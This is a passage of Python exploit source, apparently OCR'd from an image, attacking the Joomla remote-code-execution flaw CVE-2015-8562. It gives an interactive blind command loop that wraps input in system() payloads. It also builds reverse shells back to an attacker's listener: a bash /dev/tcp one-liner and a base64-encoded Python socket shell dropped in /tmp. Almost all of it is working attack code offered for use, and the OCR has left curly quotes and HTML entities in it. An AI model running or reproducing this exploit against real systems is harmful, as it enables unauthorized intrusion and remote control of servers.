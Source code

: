 ```
parser.add_argument(’–b’, dest=‘bash’, action=‘store_true’, help=’\033[1;37;10mSwitch from Python reverse shell to Bash’)

parser.add_argument(’–proxy’, dest=‘proxy’, default=‘None’, help=’\033[1;37;10mIP of web proxy to go through ([http://127.0.0.1:8080](http://127.0.0.1:8080))’)

args = parser.parse_args()

```
if args.proxy is not None:
	proxyDict = { "http"  : args.proxy, "https" : args.proxy }
else:
	proxyDict = {}
if args.cmd:
	print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
	print "\033[1;32;10m[+] Dropping into shell-like environment to perform blind RCE"
	while True:
		command = raw_input('\033[1;37;10m$ ')
		cmd_str = "system('{}');".format(command)
		pl = generate_payload(cmd_str)
		print get_url(args.RHOST, pl, args.method, proxyDict)

# Spawn Reverse Shell using Netcat listener &amp; Python shell on victim
elif args.LPORT and args.LPORT:
	shell_name = id_generator()
	connection = "'{}', {}".format(args.LHOST, args.LPORT)

	if args.bash == True :
		comm = "bash"
		shell_name = shell_name+".sh"
		# pentestmonkey's Bash reverse shell one-liner:
		str_shell = 'bash -i &gt;&amp; /dev/tcp/{}/{} 0&gt;&amp;1'.format(args.LHOST, args.LPORT)
		payload = '''echo "'''+str_shell+'''" &gt; /tmp/'''+shell_name+''''''
	else :
		comm = "python"
		shell_name = shell_name+".py"
		# pentestmonkey's Python reverse shell one-liner:
		str_shell = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('''+connection+'''));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'''
		# Base64 encoded the Python reverse shell as some chars were messing up in the exploit
		encoded_comm = base64.b64encode(str_shell)
		payload = "echo {} | base64 -d &gt; /tmp/{}".format(encoded_comm, shell_name)
